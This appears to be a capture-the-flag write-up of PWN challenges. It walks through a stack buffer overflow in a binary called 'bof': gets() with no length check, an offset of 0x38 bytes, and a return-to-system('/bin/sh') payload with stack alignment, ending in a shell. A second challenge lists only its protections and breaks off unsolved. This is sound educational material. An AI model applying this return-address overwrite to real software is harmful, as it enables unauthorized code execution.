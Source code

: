 # PWN

## 👻 BOF (solved)

-   Score: 100, Solves: 189

### Problem

[bof](bof/bof)

### Solution

1.  `file bof`

    ```shell
    ➜ file bof
    bof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=378b751f1056b9026ef636c05439f4550feb8154, stripped
    ```

2.  `checksec` ➜ **disabled CANARY**

    ![bof-checksec](../img/bof-checksec.png)

3.  `ida pro` -> `fn + F5` main

    ```c
    __int64 __fastcall main(__int64 a1, char **a2, char **a3)
    {
      char v4; // [rsp+0h] [rbp-30h]
    
      sub_40069A(a1, a2, a3);
      puts(&s);
      gets(&v4);
      return 0LL;
    }
    ```

     `gets` doesn’t check the input length

    ➜ buffer overflow

4.  distance to `old rbp = 0x30` (not exactly the length of char buffer)

    ➜  `payload = nonsense * 0x30 + (8 bytes to overwrite rbp) + (target return address)`

    | ![](../img/bof-main.png) | ![](../img/bof-main2.png) |
    | -------- | -------- |

5.  find `target return address`

    Target: `system("\bin\sh")`

    ![bof-system](../img/bof-system.png)

    `return to 0x400687` $\because$ function sub_400687 call `system("\bin\sh")`

    ➜  `payload = ‘A’ * (0x30 + 8) + 0x400687`

6.  use `gdb` to test the payload

    ![bof-gdb](../img/bof-gdb.png)

    Crack because the `rsp` value was not 16 byte padded (hex representation didn’t end with `0`)

    ➜  `payload = ‘A’ * (0x30 + 8) + ret + 0x400687`

7.  Get shell.

    ➜ find flag

    ![bof-final](../img/bof-final.png)

## 📃 Nonsense (unsolved)

-   Score: 474, Solves: 47

### Problem

[nonsense](nonsense/nonsense)

### Protection

```sh
$ file nonsense 
nonsense: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d7f0f2c524809cfa4a862fe5468df4429606e0b6, stripped

$ checksec nonsense
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

### Solution

1.  
